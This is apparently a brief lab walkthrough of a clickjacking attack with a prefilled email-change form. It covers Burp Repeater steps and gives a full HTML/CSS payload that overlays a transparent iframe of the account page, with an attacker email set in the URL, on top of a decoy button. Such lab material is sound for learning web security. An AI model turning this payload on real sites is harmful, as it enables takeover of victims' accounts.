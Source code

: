 # Some cases of Clickjacking

## 1. Clickjacking with form input data prefilled from a URL parameter

Log on to the account with `username = wiener` , `password = peter`

Change the email into:  `ian@hacker.com`

Using Burp, the Proxy tab proceeds to search for the `my-account/change-email` section. Then `Send to repeater`.

In the repeater, when sending with the `POST` method, the response side returns
a result of `302 Found`. Therefore, we proceed to change the `POST` method to `GET` and send back => Return that found `ian@hacker.com`

Go back to the website and click on `Go to exploit server` to proceed with the change 
structure the body and occupy the server with the following information:

`
Begin: 

<style>
   iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }  
</style>
<div> Test me </div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>`




    
